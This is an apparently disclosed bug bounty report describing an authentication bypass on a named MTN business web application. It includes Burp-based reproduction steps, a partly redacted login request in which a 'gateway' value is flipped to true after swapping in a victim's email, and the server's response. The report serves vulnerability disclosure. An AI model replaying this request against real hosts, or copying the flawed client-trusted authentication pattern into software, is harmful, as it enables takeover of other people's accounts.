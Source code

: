 # Authentication Bypass Leads To  Complete Account TakeveOver on ██████████

## Report Details
- **Report ID**: 1709881
- **URL**: https://hackerone.com/reports/1709881
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-09-23T14:15:28.376Z
- **Disclosed**: 2024-09-14T12:48:03.887Z

## Reporter
- **Username**: reachaxis
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:

Hello Team,
When an invalid email address/password is entered, the Web Application will not authenticate the user. But nevertheless, it is conceivable for an attacker to get around authentication and log in as anyone else, leading to Complete Account Takeover.

## Steps To Reproduce:
Create Two Test Account (Attacker & Victim)

Using attacker's account, login at ███████ 

1. Capture request with Burp. 
2. Without sending request to "Burp Repeater",  modify attacker's email to victim's email. For example REDACTED+██████ to  REDACTED+█████. 
3. Change the param `value:false`, to  `value:true,` and click send. 
4. Notice, attacker has successfully bypassed the authentication to login as the victim without any interaction.

## Supporting Material/References:
███

##Request
```
POST /app/login HTTP/1.1
Host: mtnmobad.mtnbusiness.com.ng
Cookie: █████
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.27 Safari/537.36
....snip....
Connection: close
{
	"params":{
		"updates":[
		{
			"param":"user",
			"value":{
				"userEmail":"REDACTED+██████",
				"userPassword":"#######"
				},
				"op":"a"
				},
				{
					"param":"gateway",
					"value":true,
					"op":"a"
					}
					],
....more....
```

##Response
```
HTTP/1.1 200 OK
Server: nginx
....snip....
{
	"error":false,
	"response":{
		"id":"/703",
	"name":"Victim ******",
	"type":"Account",
	"level":0,
	"notes":{
		},
....more....
```

██████
  
* [attachment / reference]
1. █████
2. ██████

## Impact

Supposing there are 100,000 users available, a malicious actor will enumerate all 100,000 emails for all users to achieve a mass account takeover. Additionally, an attacker can lockdown an account, delete an account, change account info, and perform large data leaks.

## Attachments
No attachments
